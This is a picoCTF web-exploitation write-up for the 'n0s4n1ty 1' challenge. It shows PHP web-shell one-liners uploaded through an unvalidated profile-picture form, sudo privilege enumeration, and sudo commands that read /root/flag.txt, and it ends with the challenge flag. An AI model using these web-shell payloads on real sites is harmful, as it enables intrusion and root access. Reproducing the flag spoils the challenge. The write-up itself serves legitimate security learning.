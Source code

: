 # n0s4n1ty 1 – picoCTF (Web Exploitation)

## Question
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

---

## Process

1. **Testing the Upload**
   - Initially, I attempted uploading random image files.  
   - The server accepted them without strong validation, suggesting that file extensions were not being properly checked.  
   - This indicated a potential **file upload vulnerability** where arbitrary files (including PHP scripts) could be executed.

2. **Crafting a PHP Web Shell**
   - I created a simple PHP file containing a system command:
     ```php
     <?php system("ls /"); ?>
     ```
   - Saved the file with a `.php` extension and uploaded it through the picture upload form.  
   - After navigating to the upload directory on the server, the script executed successfully and displayed the contents of the root filesystem:
     ```
     bin  boot  challenge  dev  etc  home  lib  lib64  media  mnt  
     opt  proc  root  run  sbin  srv  sys  tmp  usr  var
     ```
   - This confirmed that arbitrary command execution was possible.

3. **Privilege Investigation**
   - Since the flag is typically stored in `/root/flag.txt`, I attempted to check permissions.  
   - I executed:
     ```php
     <?php system("sudo -l"); ?>
     ```
   - The result was:
     ```
     Matching Defaults entries for www-data on challenge:
         env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
     User www-data may run the following commands on challenge:
         (ALL) NOPASSWD: ALL
     ```
   - This confirmed that the `www-data` user can run **all commands as root without a password**.

4. **Accessing the Flag**
   - I listed the contents of `/root`:
     ```bash
     sudo ls /root
     ```
     Output:
     ```
     flag.txt
     ```
   - Finally, I read the flag:
     ```bash
     sudo cat /root/flag.txt
     ```

---

## Key Idea
Upload a PHP shell through poorly validated file upload 
Execute system commands via uploaded PHP script  
Enumerate privileges with `sudo -l`  
Misconfigured sudo allows full root access (NOPASSWD: ALL)  
Use sudo to read /root/flag.txt and retrieve the flag  

# Flag
```bash
picoCTF{wh47_c4n_u_d0_wPHP_7189176f}
```
